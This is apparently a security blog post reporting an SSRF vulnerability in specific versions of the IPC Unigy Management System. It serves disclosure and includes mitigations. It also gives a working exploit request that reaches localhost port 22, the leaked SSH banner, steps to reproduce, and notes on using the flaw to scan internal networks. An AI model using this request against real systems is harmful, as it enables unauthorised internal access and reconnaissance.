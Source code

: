 ```yaml
---
layout: post
title: "Meu Novo Post"
date: 2024-06-05 23:29:53 +0000
categories: vulnerability
tags:
- vulnerability
---
```


### Vulnerability Report: SSRF in IPC Unigy™ Management System

![IPC Unigy™ Management System](file:/346f20eeb8f8437bbe1ce238cd956239)

#### Vulnerability Description

A Server-Side Request Forgery (SSRF) vulnerability has been identified in the IPC Unigy™ Management System, affecting the following versions:

- **Unigy™ Version 04.03.00.08.0027**
- **COP Version 03.00.01.00.0018**
- **OS Patch Version 06.00.00.34.0008**

This vulnerability allows a remote attacker to make arbitrary HTTP requests to internal and external resources, using the affected system as a proxy. This can be exploited to access internal data, scan the internal network, and potentially exploit other vulnerabilities that would otherwise be inaccessible externally.

#### Technical Details

##### Exploitation Request

Below is an example of an HTTP request that exploits the SSRF vulnerability:

```
GET http://127.0.0.1:22 HTTP/1.1
Host: 127.0.0.1
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

##### Obtained Response

```
HTTP/1.1 200 OK
Date: Fri, 31 May 2024 15:01:18 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 19

SSH-2.0-OpenSSH_8.1
```

### Detailed Exploitation

#### Requests to Internal Ports

Exploitation can be conducted by sending requests to internal ports of the server itself:

![Internal Port Exploitation](:/398267b04b68403fb9a83da35413ae62)

#### Requests to External Sites

Additionally, requests can be sent to external websites, allowing the exploitation of external services using the vulnerable server as a proxy:

![External Site Exploitation 1](:/305a0b80e124442b8b1567413a85e820)
![External Site Exploitation 2](:/de6a2bf947be410f9734742b3d71fdca)

### Impact

Successful exploitation of this vulnerability could allow an attacker to:

- Access protected internal resources.
- Scan the internal network and discover other vulnerable systems.
- Conduct further attacks based on the information obtained.

### Reproducing the Vulnerability

1. Send the HTTP request above using a tool such as Burp Suite or Postman.
2. Observe the response that returns information about the internal service.

### Suggested Mitigations

To mitigate this vulnerability, it is recommended to:

- Implement strict validation and sanitization of user inputs.
- Restrict the destinations allowed for requests made by the server.

### Additional References

Exploiting misconfigured reverse proxies can allow attackers to access internal services through the proxy's "localhost" interface and other internal hosts. This can be done if the proxy allows connections to the "localhost" interface or internal hosts, which can be used as a rudimentary private network scanner.

#### Exploitation Examples

- **Connecting to SSH/SMTP**: A misconfigured HTTP proxy can be exploited to connect to non-HTTP ports, revealing sensitive information about target services.
- **Finding Hosts**: With the ability to connect to the private network through a proxy, host and port discovery can be conducted using tools like Burp Intruder to test various hostnames and ports.

For more information on exploiting open and misconfigured proxies, see the full article [Abusing Reverse Proxies, Part 2: Internal Access](https://blog.projectdiscovery.io/abusing-reverse-proxies-internal-access/).
